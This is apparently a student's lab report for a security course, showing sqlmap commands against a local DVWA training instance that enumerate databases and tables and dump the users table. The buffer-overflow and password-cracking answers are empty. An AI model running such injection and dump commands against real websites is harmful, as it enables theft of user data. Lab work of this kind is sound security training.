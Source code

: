 # Lab #1,22110085, Nguyen Truong, INSE330380E_01FIE
# Task 1: Software buffer overflow attack

**Question 1**:



# Task 2: Attack on database of DVWA

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
Set up the database for DVWA and go to the webiste
In SQL Injection Blind Type in UserID then save the URL
<img src="https://github.com/letmehear159/IS-Lab/blob/master/image1.png" alt="screenShot"><br>

Then open the developerMod and copy the Cookie of the website:
<img src="https://github.com/letmehear159/IS-Lab/blob/master/Cookie.png" alt="screenShot"><br>
Open SqlMap and starting getting information about all databases : 
Running injection code :
```sh
python sqlmap.py -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=efp6tollc8ushf113hl3b4b155" --dbs
```
<img src="https://github.com/letmehear159/IS-Lab/blob/master/database.png" alt="screenShot"><br>

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
## Getting all tables:
Running injection code :
```sh
python sqlmap.py -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=efp6tollc8ushf113hl3b4b155" --tables
```
<img src="https://github.com/letmehear159/IS-Lab/blob/master/tables.png" alt="screenShot"><br>
## Getting all users information:
Running injection code :
```sh
python sqlmap.py -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=efp6tollc8ushf113hl3b4b155" --dump -T users --batch
```
<img src="https://github.com/letmehear159/IS-Lab/blob/master/users.png" alt="screenShot"><br>
**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
